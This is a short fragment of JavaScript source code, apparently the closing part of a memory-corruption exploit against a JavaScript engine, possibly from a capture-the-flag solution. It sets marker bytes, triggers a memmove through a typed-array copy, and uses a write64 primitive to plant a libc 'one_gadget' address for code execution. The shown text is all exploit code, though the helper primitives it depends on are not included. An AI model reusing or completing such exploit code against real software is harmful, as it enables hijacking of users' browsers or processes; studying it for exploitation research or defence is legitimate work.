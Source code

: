 ```javascript
    ef[cmd.length] = 0;

    // easier to spot in the debugger
    ab[0] = 0x41
    ab[1] = 0x41
    ab[2] = 0x41
    ab[3] = 0x41
    ab[4] = 0;

    // triggers memmove when copying ef.buffer <- ab.buffer
    ef.set(ab);

    // write on *0x0, crash the binary, poor man's breakpoint
    write64(0x0, 0x0, libc_low + one_gadget, libc_high);

}

main();
```
